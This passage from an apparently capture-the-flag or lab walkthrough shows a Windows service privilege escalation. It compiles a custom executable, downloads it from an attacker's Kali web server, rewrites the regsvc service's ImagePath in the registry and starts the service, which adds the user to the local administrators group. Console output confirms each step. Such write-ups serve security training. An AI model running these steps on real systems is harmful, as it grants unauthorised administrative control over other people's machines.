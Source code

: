 Now, let's compile the program (you may need to install 'gcc-mingw-w64').

~~~
$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
~~~

Now, on Windows, download the executable `http://10.9.**.**:8000/x.exe` after you have run the web server on Kali (`python3 -m http.server`).

At this stage, we have replaced the registry program with our own executable, that will add our "user" to the "administrators" group. Let's execute it:

~~~
C:\Users\user>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath
 /t REG_EXPAND_SZ /d c:\temp\x.exe /f
The operation completed successfully.

C:\Users\user>sc start regsvc

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3220
        FLAGS              :
~~~

Now, our user is part of the "administrators":

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 6] Service Escalation - Executable Files

## #6.0 - Instructions

**Detection**
